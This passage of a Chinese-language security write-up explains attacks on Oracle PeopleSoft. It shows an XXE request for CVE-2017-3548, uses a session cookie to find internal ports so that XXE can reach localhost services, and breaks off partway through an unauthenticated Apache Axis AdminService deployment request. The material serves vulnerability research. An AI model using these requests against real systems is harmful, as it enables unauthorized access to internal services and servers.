 ```
   &lt;To&gt;
      &lt;FinalDestination/&gt;
      &lt;DestinationNode/&gt;
      &lt;SubChannel/&gt;
   &lt;/To&gt;
   &lt;ContentSections&gt;
      &lt;ContentSection&gt;
         &lt;NonRepudiation/&gt;
         &lt;MessageVersion/&gt;
         &lt;Data&gt;&lt;![CDATA[&lt;?xml version="1.0"?&gt;your_message_content]]&gt;
         &lt;/Data&gt;
      &lt;/ContentSection&gt;
   &lt;/ContentSections&gt;
&lt;/IBRequest&gt;
```

CVE-2017-3548:

```
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

&lt;!DOCTYPE a PUBLIC "-//B/A/EN" "C:windows"&gt;
```

我们将使用XXE作为从本地主机到达各种服务的一种方式，这种方式可能会绕过防火墙规则或授权检查。唯一的小问题是找到对应服务所绑定的本地端口，我们可以通过`cookie`访问主页时获得该信息:

```
Set-Cookie: SNP2118-51500-PORTAL-PSJSESSIONID=9JwqZVxKjzGJn1s5DLf1t46pz91FFb3p!-1515514079;
```

在这种情况下，可以看出端口是51500。我们可以通过 `http://localhost:51500/`从 内部到达应用程序。



## Apache Axis

许多未经身份验证的服务，其中就包括`Apache Web`服务器，位于URL `http://website.com/pspc/services`下。`Apache Axis`允许您使用Java类构建SOAP端点，使用方法是通过生成它们的WSDL和辅助代码来与它们交互。为了管理它，必须与此目录下的`AdminService`进行交互:`http://website.com/pspc/services/AdminService`

``<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017343482049eeb9a0.png)



例如，以下是管理员根据java.util.Random类创 建端点:

```
POST /pspc/services/AdminService
Host: website.com
SOAPAction: something
Content-Type: application/xml
...

&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;ns1:deployment
            xmlns="http://xml.apache.org/axis/wsdd/"
            xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
            xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
            &lt;ns1:service name="RandomService" provider="java:RPC"&gt;
```